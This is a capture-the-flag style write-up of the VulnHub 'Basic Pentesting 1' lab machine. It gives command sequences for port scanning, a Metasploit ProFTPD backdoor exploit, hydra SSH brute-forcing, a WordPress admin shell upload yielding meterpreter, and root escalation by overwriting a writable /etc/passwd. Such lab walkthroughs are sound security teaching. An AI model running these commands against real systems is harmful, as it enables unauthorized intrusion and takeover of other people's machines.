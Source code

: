 <h1 align="center">
  <a href="https://www.vulnhub.com/entry/basic-pentesting-1,216/">Basic_Pentesting1</a>
</h1>

## Port Scanning

```bash
$ nmap -A <target_ip>

Other Scanning Examples:
$ nmap -A -p- -T4 <target_ip>
$ nmap -sV -sC <target_ip>
```

After the nmap has done scanning, we found 3 open ports running ftp, ssh and http

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/OpenPorts.png)

---

## Exploiting port 21 ProFTPD 1.3.3c

```bash
$ msfconsole
$ search ProFTPD
$ use exploit/unix/ftp/proftpd_133c_backdoor
$ set rhosts <target_ip>
$ set rport 21
$ run/exploit
```

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Proftpd.png)

---

## User enumeration
We had found that the users are `marlinspike` and `root` from previous ftp exploit.

## Bruteforcing into port 22 (SSH) using hydra trying default credentials

	$ hydra -l marlinspike -P <wordlist> ssh://target_ip -V

	Password Found for user(marlinspike):
	[22][ssh] host: 192.168.1.70   login: marlinspike   password: marlinspike


## Privilege Escalation
We can use the following `find` command for finding binaries that we might be able to abuse.
> find / -type f -perm -u=s 2>/dev/null

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc1.png)


After researching, we find that the user(marlinspike) can use all the commands.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc0.png)

Now, let's try abusing binary `sudo su` and enter password of the user `marlinspike/marlinspike` and boy we are in :V

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/PrivEsc-Success.png)

---

## Directory Enumeration for port 80 (http-server)

> gobuster dir -u <target_url> -w <path_to_wordlist>


![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Directory-Enum.png)

We found `/secret` directory. Let's check in the browser.
We can see a wordpress blog running on the the server.


We can see that the webpage is not properly loading. 
So let's add the vtcsec into our `/etc/hosts` file and check how the webpage looks afterward.

![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hosts.png)
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Wordpress.png)


Now, let's go to wp-admin as it is the admin panel for wordpress sites and
try default login credentials i.e admin/admin we're in.
If the default credentials wouldn't have worked we probably would have needed to
bruteforce into the admin panel via burpsuite intruder or hydra or by using
any bruteforcing tool you prefer.

Now, let's try to gain access with wordpress exploit via metasploit.
```bash
$ msfconsole
$ search wp_admin
$ use exploit/unix/webapp/wp_admin_shell_upload

set every options that is needed for the exploit.
```

We can see that we got ourselves a meterpreter session.
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/reverse_shell.png)



## Privilege Escalation
To check for any potential misconfigurations that could lead to privilege escalation, a good script to use is the unix-privesc-check script from [pentestmonkey](https://github.com/pentestmonkey/unix-privesc-check)


This can be uploaded from the meterpreter session by running the following command:
> upload /usr/bin/unix-privesc-check /tmp/unix-privesc-check


I prefer working inside `/tmp` directory.
After we upload the file to the server we then can execute the file:
```bash
$ shell
$ cd /tmp
$ chmod +x unix-privesc-check
```


The author of unix-privesc-check recommends to grep the output for WARNING, which will show any potential misconfigurations. This can be run as one single command:
> ./unix-privesc-check standard | grep WARNING


We can see `WARNING: /etc/passwd is a critical config file. World write is set for /etc/passwd` after executing the unix-privesc-check.

This means that we can write into the /etc/passwd file. So, let's download the file into our host machine by getting back into our meterpreter shell and executing:
> download /etc/passwd <path_where_to_save>


Now, from a local terminal, we can use openssl to generate a new hashed password:
> openssl passwd -1 lol

We get our hashed password i.e `$1$X5FkPmLQ$h0yILWHDiUeWUeezpmWU20`
Now, open the passwd file we downloaded before and replace x after root like:
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/Hashed.png)


Now, all we need to do is upload the modified passwd file from our host to target server
	using:
> upload <path_where_you_saved> /etc/passwd

To make the shell interactive:
> python -c 'import pty; pty.spawn("/bin/bash")'

Finally, we can switch to root's account. 
```bash
$ su root
Password: lol
```
![](https://github.com/ninchy0/vulnhub-writeups/blob/main/Basic_pentesting1/images/final-root-access.png)


<a href="https://github.com/ninchy0">ninchy0</a>